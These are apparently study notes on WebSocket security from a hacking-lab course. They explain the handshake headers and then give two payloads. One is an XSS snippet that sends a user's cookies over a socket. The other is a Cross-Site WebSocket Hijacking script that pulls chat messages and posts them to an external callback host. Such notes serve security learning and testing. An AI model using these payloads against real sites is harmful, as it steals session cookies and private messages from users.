 
#### The WebSocket handshake is initiated with an HTTP request similar to this:
```http
GET /echo HTTP/1.1
Host: websockets.htb
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: 7QpTshdCiQfiv3tH7myJ1g==
Origin: http://websockets.htb
```
- The Connection header with the value Upgrade and the Upgrade header with the value websocket indicate the client's intent to establish a WebSocket connection
- The Sec-WebSocket-Version header contains the WebSocket protocol version chosen by the client, with the latest version being 13
- The Sec-WebSocket-Key header contains a unique value confirming that the client wants to establish a WebSocket connection; this header does not provide any security protections
- The Origin header contains the origin just like in regular HTTP requests and is used for security purposes.

#### The server responds with a response similar to the following:
```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: QU/gD/2y41z9ygrOaGWgaC+Pm2M=
```
- The HTTP status code of 101 indicates that the WebSocket connection establishment has been completed
- The Connection and Upgrade headers contain the same values as in the client's request, which is Upgrade and websocket, respectively
- The Sec-WebSocket-Accept header contains a value derived from the value sent by the client in the Sec-WebSocket-Key header and confirms that the server is willing to establish a WebSocket connection


## Xss through web sockets
for example send admin's cookies through socket chat
```html
<img src=x onerror="socket.send(document.cookie);"> 
```


## Cross-Site WebSocket Hijacking
```html
<script>
  function send_message(event){
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://VulnHost:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>

```

**Note:** 


For this exploit to work, the SameSite cookie flag must be set to `None`. Since most browsers apply a default value of Lax if the SameSite cookie attribute is not set, the attack's success would require a deliberately insecure configuration by the web application administrator.
